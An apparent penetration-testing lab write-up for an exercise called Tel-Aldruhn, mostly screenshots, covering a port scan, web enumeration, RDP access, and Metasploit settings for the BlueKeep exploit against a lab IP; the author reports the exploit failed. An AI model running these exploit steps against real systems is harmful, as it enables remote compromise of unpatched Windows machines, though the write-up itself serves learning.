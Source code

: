 # Exercise 2: Tel-Aldruhn

**Note: followed John-William Tilbury’s walkthrough as I could not figure out an entry point**

Run full scan:

![Text Description automatically generated](media/a99a0ef8fa161c0beac65ce2e3971d42.png)

Run nikto on port 80. Meanwhile, visit webpage

![](media/f84cdf37ebe7952803995c9d24c98638.png)

No robots.txt webpage

dirb & nikto returns nothing

![Text Description automatically generated](media/04d5bacceb07bd93771c4f148da94726.png)

![A computer screen capture Description automatically generated with medium confidence](media/d5c986075f3d72e87d4f670a08945244.png)

Port 3389 Windows remote desktop protocol. Connect using remmina: sudo apt install remmina

![](media/9c1ca40c0c5fe664a1de51cc24da63aa.png)

Check for bluekeep vulnerability![](media/1bfdee3627a88d881d1a8ee38a2c2fd5.png)

Exploit using bluekeep

use 0  
set rhost 192.168.2.9  
set lhost tun0  
set groomsize 50  
set target 1

![](media/b89f512ed2fb66eb113340ae1c6ea8e8.png)Seems like something wrong with .9 machine itself. Perhaps a reset is needed. Otherwise the exploit should’ve worked
